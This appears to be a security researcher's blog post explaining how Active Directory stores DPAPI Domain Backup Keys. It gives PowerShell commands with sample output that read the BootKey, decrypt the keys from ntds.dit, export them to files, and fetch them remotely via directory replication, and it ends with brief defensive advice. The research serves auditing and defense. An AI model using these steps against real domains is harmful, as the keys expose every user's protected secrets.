


The Data Protection API (DPAPI) is used by several components of Windows to securely store passwords, encryption keys and other sensitive data. When DPAPI is used in an Active Directory domain environment, a copy of user’s master key is encrypted with a so-called DPAPI Domain Backup Key that is known to all domain controllers. Windows Server 2000 DCs use a symmetric key and newer systems use a public/private key pair. If the user password is reset and the original master key is rendered inaccessible to the user, the user’s access to the master key is automatically restored using the backup key.

<!--more-->

## The Mimikatz Method

Benjamin Delpy has already found a way to extract these backup keys from the LSASS of domain controllers and it even works remotely:



## Key Storage

I have taken Benjamin’s research one step further and I can now extract these keys directly from the Active Directory database, where they are physically stored:



The keys are stored in the **currentValue** attribute of objects whose names begin with **BCKUPKEY** and are of class **secret**. The **BCKUPKEY_PREFERRED Secret** and **BCKUPKEY_P Secret** objects actually only contain GUIDs of objects that hold the current modern and legacy keys, respectively. Furthermore, the currentValue attribute is encrypted using BootKey (aka SysKey) and is never sent through LDAP.

## The Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and **Save-DPAPIBlob** cmdlets from my [DSInternals PowerShell Module](/en/downloads/) can be used to retrieve the DPAPI Domain Backup Keys from ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that mimikatz would name these files similarly.

## The DRSR Method

The same result can be achieved by communicating with the Directory Replication Service using the **Get-ADReplBackupKey** cmdlet:

```powershellGet-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to repeat myself:

- Restrict access to domain controller backups.
- Be cautious when delegating the *Replicating Directory Changes All* right.